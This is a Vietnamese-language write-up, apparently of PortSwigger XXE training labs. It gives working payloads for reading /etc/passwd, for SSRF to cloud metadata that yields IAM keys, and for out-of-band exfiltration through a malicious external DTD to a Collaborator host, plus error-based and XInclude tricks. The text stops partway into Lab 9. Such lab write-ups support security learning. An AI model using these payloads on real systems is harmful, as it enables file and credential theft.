## LAB 1: Exploiting XXE using external entities to retrieve files

__Khai thác XXE bằng cách sử dụng các thực thể bên ngoài để truy xuất tệp__


Lấy nội dung của file `/etc/passwd` bằng cách khai thác lỗ hổng XXE

Request của chức năng `Check stock` xử lí bằng `XML`
```XML
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>1</productId>
        <storeId>1</storeId>
    </stockCheck>
```

Thêm khai báo DTD vào request XML để định nghĩa thực thể bên ngoài trỏ tới file `/etc/passwd`
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <stockCheck>
        <productId>&xxe;</productId>
        <storeId>1</storeId>
</stockCheck>
```
Kết quả server trả về nội dung của file `/etc/passwd`


## Lab 2: Exploiting XXE to perform SSRF attacks

__Khai thác XXE để thực hiện các cuộc tấn công SSRF__



Lab yêu cầu truy cập vào `http://169.254.169.254/` đê lấy `IAM secret access key`


Request của chức năng `Check stock` xử lí bằng `XML`



Sử dụng Burp Collaborator để tạo một URL tùy chỉnh rồi thêm khai báo DTD vào request XML để định nghĩa thực thể bên ngoài trỏ tới URL của Burp Collaborator
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://1np2eywyjvhk76e1itb5d9d87zdq1gp5.oastify.com"> ]>
    <stockCheck>
        <productId>&xxe;</productId>
        <storeId>1</storeId>
</stockCheck>
```
--> Kết quả trả về: `"Invalid product ID: tjoasfpqzieznwkl4uwsrmzjjgigz"`
Là nội dung của `http://1np2eywyjvhk76e1itb5d9d87zdq1gp5.oastify.com`


Sang Burp Collaborator kiểm tra các tương tác và thấy có yêu cầu tới `http://1np2eywyjvhk76e1itb5d9d87zdq1gp5.oastify.com`
--> Server đã thực hiện yêu cầu HTTP tới URL của Burp Collaborator


Thay đổi URL trong khai báo DTD để trỏ tới `http://169.254.169.254/`
--> Kết quả trả về `"Invalid product ID: latest"`


Khi nối `/latest` vào URL `http://169.254.169.254/` lại trả về một phần của URL\
Tiếp tục thay đổi cho đến khi xuất hiện `IAM secret access key`


--> Lấy được `IAM secret access key`:


*"Invalid product ID: {\
  "Code" : "Success",\
  "LastUpdated" : "2025-11-14T07:18:47.014193760Z",\
  "Type" : "AWS-HMAC",\
  "AccessKeyId" : "6olQlwbnHMbX32A0ZN7q",\
  "SecretAccessKey" : "wPxCYsqLRQVenhv4eupoNXEE1pErI6iVtEPDml3c",\
  "Token" : "Z7MsWFZkj0bNBDBcO9dgm9SZ5Qs305hiAH3LelmEqsO3vfAjUzcYwLazEvQLxT7SrU1omuK5tIhgVnSZYAdVyRLpaHXdk0LkdA4EOllrTEX9cBBnEpHMCCHEVcInbUDUDTh1h9fl87FfPvAwOnDm6hiWswS09rvh2O6DTMSiOLIY3kequvk2DTA1ubtn0dfvhY5BZRt7WocYfezKXpAwgigM7UNkUHVI9K9ZRhaHB6J3U2UkiP7mdKGExHvLCoCs",\
  "Expiration" : "2031-11-13T07:18:47.014193760Z"\
}"*



## Lab 3: Blind XXE with out-of-band interaction

__XXE mù với tương tác ngoài băng thông__


Lab yêu cầu lợi dụng XXE để gửi request tới Burp Collaborator



Request của chức năng `Check stock` xử lí bằng `XML`


Khai báo DTD để định nghĩa thực thể bên ngoài hiển thị nội dung tùy ý\
--> Nhưng lại thống báo là `"Invalid product ID"` ở thẻ `<productId>`



Khi chèn `&xxe;` vào thẻ `<storeId>` thì chỉ hiện thị về số lượng của sản phẩm không hiển thị nội dung của thực thể


Sử dụng Burp Collaborator để tạo một URL tùy chỉnh rồi thêm khai báo DTD vào request XML để định nghĩa thực thể bên ngoài trỏ tới URL của Burp Collaborator



Sang Burp Collaborator kiểm tra các tương tác và thấy có yêu cầu tới `http://qzv3r3f5v6j4o5b1itb5d9d87zdq1gp5.oastify.com`
--> Server đã thực hiện yêu cầu HTTP tới URL của Burp Collaborator



## Lab 4: Blind XXE with out-of-band interaction via XML parameter entities

__XXE mù với tương tác ngoài băng thông thông qua các thực thể tham số XML__


Để giải quyết bài thực hành, hãy sử dụng một thực thể tham số để khiến trình phân tích cú pháp XML đưa ra yêu cầu tra cứu DNS và HTTP tới Burp Collaborator.



Chèn thực thể tham số trong khai báo DTD để định nghĩa thực thể tham số trỏ tới URL của Burp Collaborator\
Nhưng không gọi tham số trong XML body mà gọi `%xxe;` trong khai báo DTD\
--> Server trả về "XML parsing error"


Nhưng khi sang Burp Collaborator kiểm tra các tương tác và thấy có yêu cầu tới `http://snjtepwpjmhb7xesikbwd0dz7qdh1apz.oastify.com`


## Lab 5: Exploiting blind XXE to exfiltrate data using a malicious external DTD

__Khai thác XXE mù để trích xuất dữ liệu bằng cách sử dụng DTD bên ngoài độc hại__



Lấy nội dung của file `/etc/hostname`


Trước tiên là tạo một file DTD và lưu trữ trên `Exploit server`\
Nội dung file `exploit.dtd`:
```DTD
<!ENTITY % read SYSTEM "file:///etc/hostname">
<!ENTITY % make_mal "<!ENTITY &#x25; retrieve SYSTEM 'http://4355u1c1zyxnn9u4ywr8tctbn2tthn5c.oastify.com/x=%read;'>">
%make_mal;
%retrieve;
```


Thêm khai báo DTD bên ngoài vào request XML để trỏ tới file DTD trên `Exploit server`
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY % steal SYSTEM "https://exploit-0abd003d033b988484fdbdf9012400a8.exploit-server.net/exploit.dtd"> %steal; >
]>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```


Sang Burp Collaborator kiểm tra các tương tác và thấy có yêu cầu tới `http://4355u1c1zyxnn9u4ywr8tctbn2tthn5c.oastify.com/x=7e94fa01b562`\
--> Lấy được nội dung của file `/etc/hostname`: `7e94fa01b562`


## Lab 6: Exploiting blind XXE to retrieve data via error messages

__Khai thác XXE mù để truy xuất dữ liệu thông qua các thông báo lỗi__



## Lab 6: Exploiting blind XXE to retrieve data via error messages

__Khai thác XXE mù để truy xuất dữ liệu thông qua các thông báo lỗi__


Lấy nội dung của file `/etc/passwd`


Thêm một file DTD vào `Exploit server`\
Nội dung file `exploit.dtd`:
```DTD 
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; boom SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%boom;
```


Thêm khai báo DTD bên ngoài vào request XML để trỏ tới file DTD trên `Exploit server`\
--> Server trả về thông báo lỗi có chứa nội dung của file `/etc/passwd`


## LAB 7: Exploiting XXE to retrieve data by repurposing a local DTD

__Khai thác XXE để truy xuất dữ liệu bằng cách tái sử dụng DTD cục bộ__


Yêu cầu lấy nội dung của file `/etc/passwd`\
Hệ thống dùng GNOME thường có một DTD tại `/usr/share/yelp/dtd/docbookx.dtd` chứa một thực thể có tên là `ISOamso`.


Thêm payload vào request XML để tái sử dụng DTD cục bộ\
```XML
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
'>
  %local_dtd;
]>
```
--> Server tra về thông báo lỗi có chứa nội dung của file `/etc/passwd`


## LAB 8: Exploiting XInclude to retrieve files

__Khai thác XInclude để truy xuất tệp__



Lấy nội dung của file `/etc/passwd` bằng cách khai thác lỗ hổng XInclude


Chèn đoạn mã XInclude vào trường `Product ID`\
```XML
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

--> Kết quả server trả về nội dung của file `/etc/passwd`


## LAB 9: Exploiting XXE via image file upload

__Khai thác XXE thông qua tải lên tệp hình ảnh__



Lab yêu cầu lấy nội dung của file `/etc/hostname` thông qua việc tải lên tệp hình ảnh có chứa payload XXE



Tạo một tệp hình ảnh SVG có chứa payload XXE\
```XML
